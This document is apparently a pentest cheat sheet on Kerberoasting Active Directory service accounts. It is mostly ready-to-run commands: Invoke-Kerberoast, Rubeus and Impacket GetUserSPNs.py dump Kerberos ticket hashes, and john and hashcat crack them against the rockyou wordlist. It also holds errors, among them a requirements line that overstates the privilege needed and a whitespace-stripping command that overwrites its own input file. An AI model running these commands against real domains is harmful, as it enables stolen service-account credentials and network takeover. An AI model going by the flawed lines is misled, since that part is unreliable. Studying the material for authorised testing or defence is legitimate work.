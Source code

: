 ##### Requirements
Access to domain (any), but Doman Admin is strongly preferred.

### Enumeration with Invoke-Kerberoast (Powershell Empire)
```
. .\invoke-kerberoast.ps1
Invoke-Kerberoast -OutputFormat hashcat |fl                // Copy this output to a file named "hash1"
sed -r 's/\s+//g' hash1 > hash.txt                         // removes the spaces
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt  // cracks the hash
```
##### Enumeration with Rubeus
To dump the Kerberos hash of all kerberoastable users, use:
```
./rubeus.exe kerberoast
```

##### Enumeration with Impacket
Impacket can dump all hashes remotely, provided a valid username and password:
```
sudo python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py DOMAIN_NAME/MACHINE_NAME:PASSWORD -dc-ip MACHINE_IP -request
GetUserSPNs.py DOMAIN_NAME/MACHINE_NAME:PASSWORD -dc-ip MACHINE_IP -request     // usually in PATH
```

##### Hash-cracking
Copy the hash into a file, then use:
```
cat hash.txt | tr -d " \t\n\r" > hash.txt  // Remove the whitespaces
hashcat -m 13100 -a 0 hash.txt /usr/share/wordlists/rockyou.txt  // Crack the hash
```
Note: Most hashes are not crackable